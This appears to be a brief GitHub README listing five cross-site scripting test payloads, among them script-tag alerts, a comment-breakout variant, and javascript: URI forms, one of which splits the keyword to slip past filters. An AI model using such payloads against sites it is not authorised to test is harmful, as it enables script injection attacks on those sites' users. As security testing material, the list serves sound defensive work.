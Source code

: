 # xss-test-cases

These are some XSS test cases I've developed.


Case 1 Payload

    <script>alert(1)</script>

Case 2 Payload

    --><script>alert(1)</script>

Case 3 Payload

    javascript:alert(1);

Case 4 Payload

    <script>alert(1)</script>

Case 5 Payload

    javascript:alalertert(1);

